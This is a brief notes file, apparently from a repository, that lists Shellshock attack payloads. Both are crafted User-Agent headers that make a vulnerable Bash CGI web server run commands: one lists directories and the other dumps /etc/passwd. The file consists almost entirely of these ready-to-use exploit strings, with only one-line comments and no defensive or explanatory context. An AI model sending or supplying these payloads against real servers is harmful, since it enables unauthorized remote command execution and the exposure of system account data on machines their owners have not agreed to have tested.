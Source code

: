 # Notes

Shell Shock

#List directories on webserver <br>
User-Agent: () { ignored;}; echo Content-type: text/plain;echo;echo $(/bin/ls); /bin/sleep 1

#Dump etc/passwd <br>
User-Agent: () { ignored;}; echo Content-type: text/plain;echo;echo $(/bin/cat /etc/passwd); /bin/sleep 1
